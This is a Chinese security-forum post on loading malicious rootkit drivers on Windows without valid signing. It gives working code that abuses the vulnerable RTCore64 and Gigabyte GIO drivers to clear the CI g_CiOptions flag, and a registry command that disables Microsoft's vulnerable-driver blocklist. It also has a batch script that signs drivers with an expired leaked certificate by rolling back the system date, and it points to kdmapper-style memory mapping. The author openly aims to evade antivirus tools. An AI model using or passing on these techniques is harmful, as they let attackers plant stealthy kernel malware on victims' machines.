# RootKit 之驱动加载技术 - 先知社区

RootKit 之驱动加载技术

- - -

### 前言：

在 Windows 中加载驱动需要 WHQL 认证，而 WHQL 认证高昂的价格往往并不适用于 Rootkit。当微软发现驱动被恶意利用后会采取吊销证书等手段导致我们的合法证书变成非法证书，所以我们迫切的需要一些低成本的方案来加载我们的恶意驱动程序。当前被广泛利用的方案有：

1.  修改 DES 强制加载驱动
2.  利用过期签名加载驱动
3.  内存映射驱动

### 驱动白利用

什么是驱动白利用？驱动白利用其实和白加黑是一个道理，白加黑是利用白程序启动黑模块。而驱动白利用是利用 whql 认证驱动加载黑驱动。

#### 任意地址读写漏洞

思路如下：

##### 在 R3 找到 CI 的 g\_CiOptions：

g\_CiOptions 在 CipInitialize 中，而 CipInitialize 在 CiInitialize 中

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103150856-da4bf256-7a17-1.png)

先拿到 CiInitialize

```plain
HMODULE hModule = LoadLibraryExA("C:\\Windows\\System32\\ci.dll", NULL,DONT_RESOLVE_DLL_REFERENCES);
    if (hModule == 0)
    {
        return;
    }
    ULONG64 Address = (ULONG64)GetProcAddress(hModule, "CiInitialize");
```

通过 CiInitialize 获取到 CipInitialize

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103150905-dfb70a8c-7a17-1.png)

```plain
ULONG64 Address = (ULONG64)GetProcAddress(hModule, "CiInitialize");

    for (size_t i = 0; i < 0x200; i++)
    {
        if ((*((BYTE*)Address) == 0x4C) && (*((BYTE*)Address + 1) == 0x8B) && (*((BYTE*)Address + 2) == 0xCB)) {

            printf("Address = %p \r\n", Address);
            break;

        }
        Address++;
    }

    Address = Address + 12; //获取Call偏移

    ULONG offset = *((DWORD*)Address); //将偏移保存到变量中
    ULONG64 CipInitialize = Address + 4 + offset; //计算CipInitialize地址
```

拿到 CipInitialize 的地址后继续获取 g\_CiOptions 的偏移，这里每个系统是不一样的。需要根据系统去定位，我这边是系统是最新版本的 22h2，偏移为 0x1c：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103150912-e41ded0c-7a17-1.png)

```plain
ULONG gOption_Value = (*(DWORD*)(CipInitialize + 0x1c)); //获取偏移
    ULONG64 gOption_NextLine = CipInitialize + 0x1c + 5; ////获取下一行
    DWORD64 g_op = (gOption_NextLine & ~(ULONGLONG)0xFFFFFFFF) + ((gOption_NextLine + gOption_Value) & (ULONGLONG)0xFFFFFFFF);
    printf("g_op = %p \r\n",g_op);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103150934-f0fe45ee-7a17-1.png)

这样就能获取到 R3 下的 g\_option 的地址，但这并不是一个可用的地址。还需要计算出 R0 中的地址，首先获取 R0 中的 CI 模块地址：

```plain
DWORD64 GetCiBaseAdress() {

    HMODULE hModule =  LoadLibraryA("ntdll.dll");
    Fun_NtQuerySystemInformation NtQuerySystemInformation = (Fun_NtQuerySystemInformation)GetProcAddress(hModule, "NtQuerySystemInformation");

    DWORD bufferSize = 0x1024;
    PVOID buffer = malloc(0x1024);
    NTSTATUS ntStatus = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)11,buffer, bufferSize,&bufferSize);

    if (ntStatus == 0xC0000004L) {
        free(buffer);
        buffer = malloc((SIZE_T)bufferSize);

        ntStatus = NtQuerySystemInformation(
            (SYSTEM_INFORMATION_CLASS)11,
            buffer,
            bufferSize,
            &bufferSize);
    }

    PRTL_PROCESS_MODULES pvModules = (PRTL_PROCESS_MODULES)buffer;

    for (size_t i = 0; i < pvModules->NumberOfModules; i++)
    {
        if (strstr( (char*)pvModules->Modules[i].FullPathName,"CI.dll") != NULL)
        {
            return (DWORD64)(pvModules->Modules[i].ImageBase);
        }

    }
    return 0;
}
```

获取内核下的 g\_options:

```plain
DWORD64 g_op = (gOption_NextLine & ~(ULONGLONG)0xFFFFFFFF) + ((gOption_NextLine + gOption_Value) & (ULONGLONG)0xFFFFFFFF);
    printf("g_op = %p \r\n",g_op);

    ULONG64 Kernel_option = GetCiBaseAdress() + (g_op - (ULONG64)hModule);

    printf("kernelOptions = %p \r\n", Kernel_option);
```

> [https://github.com/0xDivyanshu-new/CVE-2019-16098/blob/main/exploit.cpp](https://github.com/0xDivyanshu-new/CVE-2019-16098/blob/main/exploit.cpp)

接下来就只需要使用漏洞驱动去修改此地址，一般来说是使用 RTCore

```plain
const auto Device = CreateFileW(LR"(\\.\RTCore64)",GENERIC_READ | GENERIC_WRITE,0,nullptr,OPEN_EXISTING,0,nullptr);

    if (Device == INVALID_HANDLE_VALUE)
    {
        printf("[!] Unable to obtain a handle to the device object");
        return;
    }

    cout << ReadMemoryWORD(Device, Ci_gOptions) << endl;
```

只需要将这个值改为 0 后就可以加载未签名的驱动了，当然你的驱动加载完毕后需要在将该值改为 6。否则会蓝屏

如果说不想使用 RTCore64 则可以使用去年的技嘉驱动，找了一下发现国内还没发布过这个漏洞的分析，所以在这里做个简单分析：

通过驱动入口点观察，发现注册了派遣函数：sub\_12D10，以及设备\\Device\\GIO，并没有做任何相关认证：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103150945-f7b544b4-7a17-1.png)

sub\_12D10 这个函数就是正常的驱动派遣分发，当控制码等于 0xC3502800 时会在内核中申请一块物理内存：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103150957-fed586fa-7a17-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103151007-04d592de-7a18-1.png)

这里的 a2 + 0x18 就是我们从三环传过来的

当控制码等于 0xC3502008 时会调用 ZwUnmapViewOfSection 这个函数是取消内存映射：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103151018-0b2c4b1e-7a18-1.png)

既然有取消内存映射的调用，那么就可能存在注册内存映射的调用，只要找到这个调用号就能实现读写任意进程了，这个函数就在他下面，跟进 sub\_11790 就行：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103151030-12a22a6c-7a18-1.png)

白利用：

通过函数中的变量初始化来看，一共接收了 5 个参数，分别为

1.  type 0x0
2.  size 0x4
3.  Adress 0x8
4.  Flag 0x10
5.  ViewSize 0x14

也就是说需要传入一个结构体：

```plain
typedef struct conn{

ULONG type;
ULONG size;
ULONG64 Address;
ULONG Flag;
ULONG viewSize;

}
```

那么建立映射的代码则如下所示：

```plain
ULONG64 Input = address;

       ULONG64 Output[2] = { 0 };


       ULONG returned = 0;


       DeviceIoControl(hHandle, 0xC3502008, reinterpret_cast<LPVOID>(&Input), 
sizeof(Input),

              reinterpret_cast<LPVOID>(Output), sizeof(Output), &returned, 
NULL);


       return Output[0];
```

取消映射：

```plain
ULONG64 Input = address;

       ULONG64 Output[2] = { 0 };


       ULONG returned = 0;


       DeviceIoControl(hHandle, 0xC3502008, reinterpret_cast<LPVOID>(&Input), 
sizeof(Input),

              reinterpret_cast<LPVOID>(Output), sizeof(Output), &returned, 
NULL);


       return Output[0];
```

后面就是通过总线地址转虚拟地址了，过程比较复杂就不过多描写。通过映射内存后修改 gOption 的值即可

#### 内存映射

内存映射的原理其实很简单，就是 PELOAD，将驱动在内存展开后 call 入口地址即可。但是需要注意的是不能够使用驱动对象。

GITHUB 上有个项目非常出名，叫做 kdmapper：

> [https://github.com/TheCruZ/kdmapper](https://github.com/TheCruZ/kdmapper)

单该项目存在一个问题就是 Windows22h2 无法使用，其原因是 Windows11 将 iqvw64e.sys 拉黑了，解决办法也很简单就是关闭目标计算机的黑名单校验：

```plain
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\CI\Config" /f /t REG_DWORD /v VulnerableDriverBlocklistEnable /d 0
```

当然如果说关闭校验对于存在 360 等来说比较困难也可以考虑使用 nvaudio.sys：

> [https://github.com/gmh5225/UCMapper](https://github.com/gmh5225/UCMapper)

### 过期签名加载

使用过期签名来加载驱动需要修改操作系统时间，修改至签名过期之前即可：

```plain
@echo off

cd %~dp0

@if "x%1" EQU "x" (goto help) else (goto sign)
:help
@echo Usage: sign.bat filename
@echo Note:  Original file will be overrided by the signed one, no backup
@goto :end
:sign

@echo Sign File %1
set message=%DATE%
date 2017.03.01
signtool.exe sign /v /ac CSC3-2010.crt /f current_cert.pfx /p nv1d1aRules /t "http://timestamp.digicert.com" %1
date %message%
:end
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103151045-1b68d38a-7a18-1.png)

签名成功：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103151058-235d972e-7a18-1.png)

加载代码：

```plain
system("date 2017.03.01");

加载驱动 ();

system("date 时间改回来");
```

### 总结：

在我们实战环境中往往使用第二种内存映射的方式来进行加载，因为一三种方式均会在系统上落地。且 pyark、火绒剑等工具也能轻松找到我们的恶意程序。而第二种方式是无痕的，不会产生落地文件。也不会显示在驱动列表中，这里又引出一个新的问题，在内存映射驱动后，我们无法创建符号链接又该如何与驱动进行通信呢？有没有什么非常隐蔽的方式来进行通信？

打赏
